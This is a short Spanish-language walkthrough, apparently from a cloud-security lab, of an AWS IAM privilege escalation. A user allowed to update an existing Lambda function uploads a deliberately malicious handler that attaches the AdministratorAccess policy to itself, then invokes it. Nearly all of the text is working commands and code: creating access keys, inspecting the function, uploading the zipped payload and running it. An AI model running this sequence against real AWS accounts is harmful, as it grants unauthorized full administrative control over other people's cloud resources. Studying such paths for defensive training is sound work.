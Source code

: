 ARN obtenido  
	arn:aws:iam::579852752421:policy/privesc17-EditExistingLambdaFunctionWithRole  

En una lambda ya creada o creando una nueva con los valores por defecto  

```bash
aws iam create-access-key --user-name privesc17-EditExistingLambdaFunctionWithRole-user  

aws sts get-caller-identity --profile privesc17  

aws lambda get-function --function-name HolaMundo --region us-east-2  
```

Crear una funcion maliciosa con el siguiente contenido:  
```bash
cat privesc17.py  
```

```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc17-EditExistingLambdaFunctionWithRole-user', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response

```

comprimir este script a un archivo comprimido llamado function.zip  

```bash
aws lambda update-function-code --function-name HolaMundo --region us-east-2 --zip-file fileb://function.zip --profile privesc17  

aws lambda invoke --function-name HolaMundo output.txt --region us-east-2  
```

